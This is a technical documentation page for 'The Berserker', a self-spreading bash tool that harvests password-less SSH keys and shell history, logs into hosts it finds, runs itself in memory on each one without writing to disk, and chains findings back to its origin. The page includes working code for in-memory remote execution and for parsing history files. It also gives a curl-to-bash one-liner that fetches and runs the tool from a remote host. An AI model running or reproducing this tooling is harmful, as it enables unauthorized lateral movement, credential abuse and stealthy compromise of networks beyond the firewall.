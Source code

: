 ```yaml
---
layout: default
title: The Berserker | How it works
description: Technical details about how The Berserker works.
---
```


<!-- {:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef} -->

Random notes on how [The Berserker](../) works.

## Executive Summary

[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

## General

The Berserker looks for any passwordless private ssh-key in `~/.ssh` and then gathers information from the User's shell history (`~/.bash_history`, `.zsh_history` and `~/.history`) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User `alice` starts The Berserker on host `Earth` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that `alice` frequently connects to `Mars` (as alice) and `Jupiter` (as root). The Berserker first connects to `Mars` and executes itself on `Mars`. Let's assume The Berserker finds no further ssh-keys on `Mars` and so it will not spread beyond `Mars`. Next it connects from `Earth` to `Jupiter`. It's a root login to `Jupiter` and The Berserker finds many ssh-keys from various users. One such user is `bob` who frequently connects to `Uranus` and from there to `Pluto`. Ultimately The Berserker will get to `Pluto` via a long ssh chain from `Earth`->`Jupiter`->`Uranus`->`Pluto`.

At this point the educated reader will realise that The Berserker is *deep penetrating* `Uranus`, e.g. `Uranus` gets owned even if firewalled or not being accessible from the Internet (but accessible from `Jupiter`).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to `Earth` (the *origin* where The Berserker started).

## Bash In-Memory execution

Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named `e.sh`.
1. Slurp the content into the variable `$S` after converting all `'` to `'"'"'`. That's a bit freaky but hold your beer.
1. I use the hex notation (`\x27`) of `'` here or otherwise it would look rather complicated (`sed` needs the `'` escaped so it is double-escaping time): `S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"`. Most readers would commit suicide at this point. This is just to escape `'` correctly so that it can be passed to `ssh` as a command via a variable (`SCRIPT='$S'`) without interfering with the `'` around the `$S`.
1. The long string `export SCRIPT='$S'; bash -c \"\$SCRIPT\"` is passed as a command to `ssh` to execute on the remote host. Note that the `$` in `\"\$SCRIPT\"` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute `$SCRIPT`. This is only needed because The Berserker needs to access the source of its own script (now stored in `$SCRIPT` to spread to further hosts). Otherwise `bash -c '$S'` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (piping a script with `dd` into a remote bash variable and executing the string from memory is a thing....).

## Bash Command line parsing

There is no efficient way to convert a command line string from `~/.bash_history` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records `ls foo\ bar` rather than what it actually executes (`exec("ls", "foo bar")`; note the missing `\`). This is a problem if there are history entries containing bash variables or escape sequences like `$HOME` or `\ ` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is `exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program `xargs` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used `xargs` to call `bash -c` and output each command line argument in a separate line and then convert this into a bash array:

```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable `line` now contains:

```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note: The double `eval eval` is needed. The first one convert the `${#}` to the integer number of the arguments passed to the bash by `xargs` and the second `eval` resolves the `~/` to the absolute directory name.

That format can now easily be split into an array like so:

```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```

 * Note how the *string* `MyArray` is passed as a function parameter (followed by the ssh command). Inside the function we use `eval` on that string to 'turn' the string-name (`MyArray`) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

## Bash stderr and $? catching

The Berserker needs to check the error output of `ssh` _and_ also needs the exit-code of `ssh` _and_ the standard output must pass through. The only way to do this in bash is to play file descriptor bonanza:

```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "ret=$ret, err=$err"
```

* The `echo 1>&2 "Hello-STDERR";` generates some test output to STDERR.
* The `exit 123;` is some test exit code (123).

The output is `ret=123, err=Hello-STDERR`.

## Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to `Earth` (the *origin*). A simple protocol is used to pass the information from the farthest `ssh` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above `Pluto` would pass the message back to `Uranus`, `Uranus` back to `Jupitor`, ... to `Mars`, ... to `Earth`. All protocol messages are then dispatched at the *origin* in `msg_dispatch()`. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with `BS_DEBUG_IS_SLAVE=1`:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:

```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

## If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

## Contact

{% include contact-details.md %}
